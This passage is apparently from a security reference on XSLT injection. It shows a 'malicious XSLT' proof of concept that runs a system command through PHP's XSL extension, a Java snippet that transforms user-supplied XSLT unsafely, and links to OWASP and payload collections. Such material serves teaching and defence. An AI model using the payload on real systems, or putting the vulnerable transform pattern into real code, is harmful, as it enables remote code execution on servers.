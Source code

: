 Malicious XSLT:
```xml
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
xmlns:php="http://php.net/xsl">
  <xsl:template match="/">
    <xsl:value-of select="php:function('system', 'id')"/>
  </xsl:template>
</xsl:stylesheet>
```

### Java Example
```java
TransformerFactory factory = TransformerFactory.newInstance();
Transformer transformer = factory.newTransformer(new StreamSource(userInputXslt));
transformer.transform(new StreamSource(xmlInput), new StreamResult(output));
```

## References
- [OWASP XSLT Injection](https://owasp.org/www-community/attacks/XSLT_Injection)
- [Saxon Security](https://www.saxonica.com/documentation/index.html#!configuration/config-features)
- [PHP XSLTProcessor Security](https://www.php.net/manual/en/class.xsltprocessor.php)
- [Microsoft MSXML Security](https://docs.microsoft.com/en-us/previous-versions/windows/desktop/ms753807(v=vs.85))
- [PayloadsAllTheThings XSLT Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSLT%20Injection)


